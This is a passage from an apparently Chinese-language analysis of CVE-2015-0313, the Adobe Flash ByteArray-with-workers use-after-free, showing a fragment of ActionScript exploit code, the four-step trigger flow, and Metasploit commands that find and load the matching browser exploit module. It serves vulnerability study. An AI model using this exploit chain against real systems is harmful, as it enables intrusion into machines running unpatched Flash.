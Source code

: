 ```ActionScript
                }
            }
            if (uv == null) {
                Logger.log("[!] Exploit - onMessage(): Corrupted Vector not found")
                return
            }
            exploiter = new Exploiter(this, platform, os, payload, uv)
        }
    }
}
}
```

具体函数内进行的操作已标记在注释中。总结下来漏洞的触发流程是

1. 在主 worker 中创建子 worker，然后 worker 间共享 ByteArray 数据
2. 在主 worker 中将共享的 ByteArray 对象设置为 domainMemory
3. 在子 worker 中通过 ByteArray.Clear 将共享的 ByteArray 内存清除
4. 但是这时候 domainMemory 依然可以引用共享的内存区域，这是因为子 worker 调用 clear 清除内存的时候没有通知 domainMemory 修改对共享的引用

因此导致 UAF 漏洞

## 漏洞利用

使用 MSF 搜索该漏洞的 exp

```sh
msfconsole
msf6 > search cve-2015-0313
```

搜索结果

```Plaintext
Matching Modules
================

   #  Name                                                       Disclosure Date  Rank   Check  Description
   -  ----                                                       ---------------  ----   -----  -----------
   0  exploit/windows/browser/adobe_flash_worker_byte_array_uaf  2015-02-02       great  No     Adobe Flash Player ByteArray With Workers Use After Free


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/browser/adobe_flash_worker_byte_array_uaf
```

调用该模块并查看模块详情

```sh
msf6 > use exploit/windows/browser/adobe_flash_worker_byte_array_uaf
msf6 exploit(windows/browser/adobe_flash_worker_byte_array_uaf) > info
```
